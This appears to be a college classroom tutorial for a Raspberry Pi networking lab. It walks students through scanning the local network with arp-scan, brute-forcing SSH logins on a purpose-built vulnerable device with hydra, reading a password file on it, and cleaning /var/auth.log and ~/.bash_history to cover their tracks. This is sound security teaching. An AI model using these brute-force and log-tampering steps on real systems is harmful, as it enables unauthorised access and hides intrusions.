

Last Updated: 2019-11-19
Throughout this class you will develop:
Your understanding of how networks are assembled and work.
Your understanding of:
See the image below for instructions on how to connect the Pi. When booted, the Pi should automatically connect to the local network.

Your Pi is loaded with a version of Raspbian called Raspbian Lite. There is no desktop interface loaded with this distribution so you will need to use the command line during this class. You do not need to connect a mouse.
You have certain tools available which are pre-loaded on the Pi. These are:
nano #a simple text editor
cat #a way of displaying text files in a terminal
sudo #a tool for getting admin rights
arp-scan #a tool for scanning a network for IP addresses
ssh #a method for remotely connecting to another machine
hydra #a tool for trying lots of login passwords from a listSome example usage of these commands is demonstrated below:
nano - A simple text editor
pi@raspberrypi ~ $ nano list.txtThis will bring up a list of passwords that you can edit. The correct password is in this list for this class. Press Ctrl+x to exit
cat - A way of displaying text files in a terminal
pi@raspberrypi ~ $ cat list.txtThis will print the contents of the text file to the terminal.
arp-scan - A tool for scanning a network for IP addresses
pi@raspberrypi ~ $ sudo arp-scan --interface=wlan0 --localnetThis will scan the Wi-Fi (this is specified by the wlan0 flag) network that the Pi is connected to and print all devices currently connected to that network.
ssh - A method for remotely connecting to another machine
pi@raspberrypi ~ $ ssh pi@192.168.0.129This will establish a remote connection to the pi located at the IP address 192.168.0.129. It will ask for a password. This is the main user password for the Pi. The default is raspberry.
hydra - A tool for trying lots of login passwords from a list
pi@raspberrypi ~ $ hydra -l pi -P list.txt 192.168.0.129 -t 4 sshThis will attempt to connect to the pi at IP address 192.168.0.129 using the passwords in the file list.txt. You can find the explanation of the rest of the command in the hydra man pages.
Note:
It is a good idea to first establish your own IP address. Run this command in the terminal:
pi@raspberrypi ~ $ ifconfigUnder this command, you should see some numbers 192.168.0.??? which corresponds to your IP address. Make a note of this.
Run this command to scan the network for other attached devices.
pi@raspberrypi ~ $ sudo arp-scan --interface=wlan0 --localnetYou should see the other Pis in the class, the router (which will always have the IP address 192.168.0.1) and another device. This is the vulnerable device.
Run this command in the terminal:
pi@raspberrypi ~ $ ssh pi@192.168.0.???replacing the question marks with the IP address of a device on the network which you discovered in the previous step.
If you see a response that the connection was refused, try a different number.
Once you have attempted to enter the password, run the following command
pi@raspberrypi ~ $ hydra -l pi -P list.txt 192.168.0.?? -t 4 sshwhere the question marks are the IP address of the vulnerable device.
If this connects, you now have full control of this machine. Try the following command:
pi@raspberrypi ~ $ lsThis should list the contents of the directory. If this has all been completed correctly, you should see a passwords.txt file in the directory.
If you run the command:
pi@raspberrypi ~ $ cat passwords.txtyou should see the password to enter into the Form here: https://forms.gle/82UVt25cr7Hzx5QEA
The two to look at are
/var/auth.log & ~/.bash_historyThis tutorial will not cover the rest of covering your tracks. Find out how to do this online... Good luck!
Congratulations, you have reached the end of the tutorial. Good luck!
If you have any questions, please contact Scott Morgan | smorgan@bridgend.ac.uk.
Next steps:
If you're interested in this, you should learn:
See more info in the Slide deck.
Resources & Further Reading: